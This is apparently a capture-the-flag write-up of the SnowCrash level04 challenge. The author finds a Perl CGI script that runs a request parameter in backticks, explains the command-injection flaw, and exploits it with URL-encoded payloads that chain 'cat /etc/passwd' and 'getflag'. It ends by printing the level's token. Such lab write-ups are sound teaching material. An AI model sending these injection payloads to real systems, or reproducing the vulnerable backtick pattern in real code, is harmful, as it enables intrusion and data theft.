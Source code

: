 # Flag04

In my home directory I found a script in `perl`:
```
level04@SnowCrash:~$ pwd
/home/user/level04
level04@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
-r-x------  1 level04 level04  675 Apr  3  2012 .profile
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
level04@SnowCrash:~$
```
And from a previous recognition I know the location of a folder called `level04` in `/var/www`:
![/var/www](./20240306171920.png)
Where I found the same file:
```
level04@SnowCrash:/var/www/level04$ ls -la
total 4
dr-xr-x---+ 2 flag04 level04  60 Mar 10 18:15 .
drwxr-xr-x  1 root   root    100 Mar 10 18:15 ..
-r-xr-x---+ 1 flag04 level04 152 Mar 10 18:15 level04.pl
level04@SnowCrash:/var/www/level04$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
level04@SnowCrash:/var/www/level04$
```
Permissions, however, are different.
```
$ scp -P 4242 level04@10.13.250.56:/home/user/level04/level04.pl ~/
```
This Perl script is designed to run a command received as a parameter named "x" using CGI. Here's a breakdown of what the script does:

1. It starts with the shebang line `#!/usr/bin/perl` which specifies the path to the Perl interpreter.
2. It includes the CGI module using `use CGI qw{param};` which allows it to access parameters passed to the script.
3. It sets the content type header for HTML output with `print "Content-type: text/html\n\n";`.
4. It defines a subroutine named `x` that takes a parameter and assigns it to the variable `$y`.
5. Within the subroutine, it uses backticks and the `echo` command to execute the value of `$y` as a shell command. The `2>&1` redirects standard error to standard output.
6. The script then calls the subroutine x with the value of the parameter `"x"` obtained using `param("x")`.

In summary, this script takes a parameter `"x"` from a CGI request, passes it to a subroutine that executes it as a shell command, and then prints the output of that command back to the browser. This script poses a security risk as it allows arbitrary shell commands to be executed, making it vulnerable to code injection attacks. It is important to sanitize and validate user input before executing any commands in this manner to prevent security vulnerabilities.

By connecting to the port, a blank page appears:
```
$ firefox 10.13.250.56:4747
```
If I add the `x` parameter to it, like for example:
```
?x="Hello, Tomi!"
```
![Tomi](./20240310190758.png)
To execute a command I need to encode it in URL-format string, as so:
```
http://10.13.250.56:4747/?x=banane%20%26%26%20cat%20%2Fetc%2Fpasswd
```
![echo_banane](./20240310192318.png)

Right, that's enough talk. Let's get on with it!
```
http://10.13.250.56:4747/?x=banane%20%26%26%20getflag
```
[getflag](image.png)

_Et voilà !_ The token is:
```
ne2searoevaevoem4ov4ar8ap
```

```
level04@SnowCrash:~$ su level05
Password:
level05@SnowCrash:~$